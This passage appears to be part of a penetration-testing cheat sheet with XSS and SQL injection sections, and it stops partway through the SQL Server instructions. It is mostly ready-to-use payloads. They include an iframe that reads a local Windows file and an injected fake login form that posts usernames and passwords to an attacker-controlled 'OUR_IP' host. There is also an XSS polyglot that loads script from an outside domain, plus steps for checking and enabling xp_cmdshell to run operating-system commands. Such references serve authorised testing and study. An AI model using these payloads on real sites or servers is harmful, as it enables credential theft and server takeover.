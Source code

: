 | **`<iframe src=file:///C:/windows/win.ini>`**                                                                                                                                                                                                                                                                                                                                                         | Load remote ini file via iframe tag        |
| <p></p><pre class="language-javascript"><code class="lang-javascript">document.write('&#x3C;h3>Please login to continue&#x3C;/h3>&#x3C;form action=http://OUR_IP>&#x3C;input type="username" name="username" placeholder="Username">&#x3C;input type="password" name="password" placeholder="Password">&#x3C;input type="submit" name="submit" value="Login">&#x3C;/form>');
</code></pre><p><br></p> | Login Form Injection                       |
| curl -isk "https://site.com"                                                                                                                                                                                                                                                                                                                                                                          | Test for status of Content Security Policy |

#### Serve XSS 𝙥𝙖𝙮𝙡𝙤𝙖𝙙 from a XML file

```
<?xml version="1.0" encoding="UTF-8"?>
<html xmlns:html="http://w3.org/1999/xhtml">
<html:script>prompt(document.domain);</html:script>
</html>
```

#### Sample XSS Polyglot

```
'"onclick=(co\u006efirm)?.`0`><sVg/i="${{7*7}}"oNload=" 0>(pro\u006dpt)`1`"></svG/</sTyle/</scripT/</textArea/</iFrame/</noScript/</seLect/--><h1><iMg/srC/onerror=alert`2`>%22%3E%3CSvg/onload=confirm`3`//<Script/src=//ChiragXSS.xSs.ht></scripT>
```

#### **How to perform basic Login Form Injection via Reflected XSS**&#x20;

Step 1: Test vulnerable form for the remove function by running script in console (Dev-Tools)

```
document.getElementById('urlform').remove();
```

Step 2: Inject form into webpage with XSS payload by executing the below script into console (Dev-tools)

```
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```
{% endtab %}

{% tab title="SQLi" %}
After successfully authenticating to a SQL Server \
It is worth a shot to verify if xp\_cmdshell has been previously activated with:\


```
EXEC xp_cmdshell 'net user';
```

If xp\_cmdshell has not been activated, run the below commands to activate and utilize Windows XP cmd commands within SQL:

<pre><code># The command below enables sp_configure 

<strong>EXEC sp_configure 'show advanced options', 1;
</strong></code></pre>

